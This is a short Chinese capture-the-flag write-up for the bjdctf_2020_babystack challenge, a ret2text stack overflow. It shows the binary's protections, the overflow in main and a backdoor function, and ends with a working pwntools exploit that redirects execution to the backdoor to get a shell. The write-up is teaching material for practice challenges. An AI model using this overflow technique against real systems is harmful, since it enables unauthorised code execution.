 # 知识点

ret2text



# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，main函数让我们输入一个长度，然后read数据到buf。因此，存在栈溢出漏洞。

   <img src="./isset/ida1.png" alt="ida1" style="zoom:50%;" />

3. 发现程序存在后门函数。

   <img src="./isset/ida2.png" alt="ida2" style="zoom:50%;" />

   

# EXP

```bash
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babystack')

ret = 0x400561

io.sendlineafter('name:\n', '100')

payload = 'A' * 0x10 + 'deadbeef' + p64(ret) + p64(0x4006E6)
io.send(payload)

io.interactive()
```

